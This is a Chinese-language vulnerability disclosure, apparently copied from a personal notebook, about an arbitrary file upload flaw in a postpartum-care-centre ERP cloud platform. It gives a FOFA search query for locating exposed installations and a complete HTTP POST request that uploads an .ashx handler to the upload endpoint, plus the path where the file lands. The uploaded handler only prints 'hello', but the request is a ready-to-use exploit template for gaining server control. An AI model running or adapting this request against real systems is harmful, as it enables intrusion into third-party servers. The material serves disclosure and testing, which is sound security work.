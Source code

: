 # 月子会所ERP管理云平台upload任意文件上传漏洞

# <font style="color:#080808;background-color:#ffffff;">一、漏洞简介</font>
<font style="color:#080808;background-color:#ffffff;">月子会ERP管理云平台是由武汉金同方科技有限公司研发团队结合行业月子中心相关企业需求开发的一套综合性管理软件，管控月子中心经营过程中各个环节。由于未对上传文件进行任何过滤，可上传任意文件，攻击者可利用该漏洞获取服务器控制权。</font>

# <font style="color:#080808;background-color:#ffffff;">二、影响版本</font>
+ <font style="color:#080808;background-color:#ffffff;">月子会所ERP管理云平台</font>

# <font style="color:#080808;background-color:#ffffff;">三、资产测绘</font>
+ fofa`product="妈妈宝盒-ERP"`
+ 登录页面

![1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab.png](./img/voyuHtcl_zUwlhHw/1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab-255517.png)

# <font style="color:#080808;background-color:#ffffff;">四、漏洞复现</font>
```plain
POST /Page/upload/UploadComponentHandler.ashx HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_301
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 497
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.ashx"

<% @ webhandler language="C#" class="AverageHandler" %> 
using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
    public bool IsReusable 
    { 
        get {
             return true; 
            } 
        } 
        public void ProcessRequest(HttpContext ctx) 
        { 
            ctx.Response.Write("hello"); 
        } 
    }
--00content0boundary00--

```

![1695625519716-92e1ae6f-713d-49e3-bcce-dd74452e8993.png](./img/voyuHtcl_zUwlhHw/1695625519716-92e1ae6f-713d-49e3-bcce-dd74452e8993-231673.png)

上传文件位置

```plain
/UploadBaseFolder/ERP/202309/1_230925150451061741.ashx
```

![1695625556076-a2555b8c-41e1-4efb-a711-39f2f3929018.png](./img/voyuHtcl_zUwlhHw/1695625556076-a2555b8c-41e1-4efb-a711-39f2f3929018-397938.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ge2r9u2fgwniwh1q>
